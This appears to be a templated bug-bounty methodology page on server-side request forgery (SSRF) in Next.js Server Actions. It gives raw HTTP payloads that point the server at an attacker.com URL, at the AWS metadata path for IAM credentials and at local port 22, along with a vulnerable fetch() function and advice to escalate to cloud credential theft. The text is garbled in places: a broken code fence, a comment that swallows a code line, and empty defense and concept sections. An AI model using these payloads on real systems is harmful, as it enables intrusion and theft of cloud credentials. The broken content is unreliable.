

# SSRF via Next.js Server Actions

## When to Use
- When auditing modern web applications built using Next.js (React framework) that utilize Server Actions or custom API routes (`/pages/api` or `/app/api`).
- To demonstrate how fetching external data based on user input on the server side can lead to SSRF, allowing access to internal networks or cloud metadata.


## Prerequisites
- Authorized scope and target URLs from bug bounty program
- Burp Suite Professional (or Community) configured with browser proxy
- Familiarity with OWASP Top 10 and common web vulnerability classes
- SecLists wordlists for fuzzing and enumeration

## Workflow

### Phase 1: Identifying Server Actions

```text
# Concept: Next.js Server Actions ```

### Phase 2: Analyzing Request Payloads (Black Box)

```http
# POST / HTTP/1.1
Host: target.com
Content-Type: text/plain;charset=UTF-8
Next-Action: xxxxxxxx

[{"url": "https://attacker.com/image.png"}]
```

### Phase 3: Code Review (White Box - if available)

```javascript
# Sink: fetch() 'use server'

export async function fetchPreview(url) {
  // VULNERABLE const res = await fetch(url);
  const data = await res.text();
  return { preview: data.substring(0, 100) };
}
```

### Phase 4: Exploitation

```http
# POST / HTTP/1.1
Host: target.com
Content-Type: text/plain;charset=UTF-8
Next-Action: xxxxxxxx

[{"url": "http://169.254.169.254/latest/meta-data/iam/security-credentials/"}]

# POST / HTTP/1.1
Host: target.com
Content-Type: text/plain;charset=UTF-8
Next-Action: xxxxxxxx

[{"url": "http://127.0.0.1:22"}]
```

#### Decision Point 🔀
```mermaid
flowchart TD
    A[Monitor Next-Action ] --> B{Accepts URL Input ]}
    B -->|Yes| C[Test internal ]
    B -->|No| D[Test parameter ]
    C --> E[Exfiltrate ]
```


### 🏆 Elite Chaining Strategy (Top 1% Hunter Methodology)

> **Core Principle**: A single finding is a $500 report. A chained exploit is a $50,000 report.
> The top 1% of hunters spend 40+ hours on a single target, understanding it better than
> the developers who built it. They automate discovery, not exploitation.

**Chaining Decision Tree:**


**Common High-Payout Chains:**
| Chain Pattern | Typical Bounty | Example |
|--|--|--|
| SSRF → Cloud Metadata → IAM Keys | $15,000-$50,000 | Webhook URL → AWS creds → S3 data |
| Open Redirect → OAuth Token Theft | $5,000-$15,000 | Login redirect → steal auth code |
| IDOR + GraphQL Introspection | $3,000-$10,000 | Enumerate users → access any account |
| Race Condition → Financial Impact | $10,000-$30,000 | Duplicate gift cards → unlimited funds |
| XSS → ATO via Cookie Theft | $2,000-$8,000 | Stored XSS on admin page → session hijack |
| Info Disclosure → API Key Reuse | $5,000-$20,000 | JS file → hardcoded API key → admin access |

**The "Architect" vs "Scanner" Mindset:**
- ❌ **Scanner Mindset**: Run nuclei on 10,000 subdomains, submit the first hit → duplicates
- ✅ **Architect Mindset**: Spend 2 weeks mapping ONE application's business logic, RBAC model, 
  and integration seams → find what no scanner ever will

## 🔵 Blue Team Detection & Defense
- **URL Allowlisting**: - **SSRF Protections (Network Level)**: Key Concepts
| Concept | Description |
|---------|-------------|
| Server Actions | |
| SSRF (Server-Side Request Forgery) | |


## Output Format
```
Ssrf Nextjs Server Actions — Assessment Report
============================================================
Target: [Target identifier]
Assessor: [Operator name]
Date: [Assessment date]
Scope: [Authorized scope]
MITRE ATT&CK: [Relevant technique IDs]

Findings Summary:
  [Finding 1]: [Severity] — [Brief description]
  [Finding 2]: [Severity] — [Brief description]

Detailed Results:
  Phase 1: [Phase name]
    - Result: [Outcome]
    - Evidence: [Screenshot/log reference]
    - Impact: [Business impact assessment]

  Phase 2: [Phase name]
    - Result: [Outcome]
    - Evidence: [Screenshot/log reference]
    - Impact: [Business impact assessment]

Risk Rating: [Critical/High/Medium/Low/Informational]
Recommendations:
  1. [Immediate remediation step]
  2. [Long-term hardening measure]
  3. [Monitoring/detection improvement]
```


### 📝 Elite Report Writing (Top 1% Standard)

> **"The difference between a $500 and $50,000 report is the quality of the writeup."**
> — Vickie Li, Bug Bounty Bootcamp

**Title Format**: `[VulnType] in [Component] Allows [BusinessImpact]`
- ❌ "XSS Found" → This tells the triager nothing
- ✅ "Stored XSS in /admin/comments Allows Session Hijacking of All Moderators"

**Report Structure (HackerOne-Optimized):**
1. **Summary** (2-4 sentences — triager reads only this first): What broke, how, worst-case.
2. **CVSS 4.0 Vector** — Must be defensible; wrong CVSS destroys credibility.
3. **Attack Scenario** — 3-5 sentence narrative from attacker's perspective.
4. **Impact** — MUST include at least one real number: "Affects 4.2M users" not "affects many users".
5. **Steps to Reproduce** — Deterministic. A junior dev who has never seen this bug reproduces it exactly.
6. **PoC** — Copy-paste runnable. No placeholders. Match the exact HTTP method.
7. **Remediation** — Don't say "sanitize input." Give the exact code fix, before/after.
8. **CWE + References** — SSRF→CWE-918, IDOR→CWE-639, SQLi→CWE-89, XSS→CWE-79.

**Pre-Report Verification (5 Checks):**
1. 🔍 **Hallucination Detector** — Verify endpoints, CVEs, and code paths are real
2. 🤖 **AI Writing Pattern Check** — Remove "Certainly!", "It's worth noting", generic phrasing
3. 🧪 **PoC Reproducibility** — Payload syntax valid for context? Prerequisites stated?
4. 📋 **Duplicate Detection** — Is this a scanner-generic finding? Known public disclosure?
5. 📈 **Impact Plausibility** — Severity matches technical capability? No inflation?


## 💰 Real-World Disclosed Bounties (SSRF)

| Company | Bounty | Researcher | Technique | Year |
|---------|--------|-----------|-----------|------|
| **HackerOne** | $25,000 | (Undisclosed) | Critical SSRF in PDF generation → AWS metadata → temp IAM creds | 2023 |
| **Lark Technologies** | $5,000 | (Undisclosed) | Full-read SSRF via Docs import-as-docs feature | 2024 |
| **Apache (IBB)** | $4,920 | (Undisclosed) | CVE-2024-38472: SSRF on Windows leaking NTLM hashes | 2024 |
| **U.S. Dept of Defense** | $4,000 | (Undisclosed) | SSRF in FAST PDF generator → internal network access | 2024 |
| **Slack** | $4,000 | (Undisclosed) | SSRF via Office file thumbnail generation | 2024 |
| **HackerOne** | $1,250 | (Undisclosed) | SSRF in webhook functionality — IPv6→IPv4 anti-SSRF bypass | 2024 |
| **GitHub Enterprise** | (Disclosed) | Orange Tsai | SSRF→RCE chain on GitHub Enterprise Server | 2023 |

**Key Lesson**: The HackerOne $25,000 SSRF proves PDF generators are gold mines. Any feature
that fetches URLs server-side (webhooks, image imports, link previews, PDF renderers) is an 
SSRF target. Orange Tsai's GitHub chain shows SSRF→RCE is the ultimate escalation path.

**What got $25K vs $1.25K:**
- $25K: SSRF accessed AWS metadata, extracted real IAM credentials → cloud compromise
- $1.25K: SSRF confirmed via IPv6 bypass but no demonstrated data access
- **Lesson: Always escalate SSRF to cloud metadata theft or internal service access**

## 🔴 Red Team
- Extract assets and enumerate endpoints.
- Execute initial payloads leveraging documented vulnerabilities.

## References
- PortSwigger: [SSRF](https://portswigger.net/web-security/ssrf)
- Next.js Security: [Server Actions Security](https://nextjs.org/docs/app/building-your-application/data-fetching/server-actions-and-mutations#security)
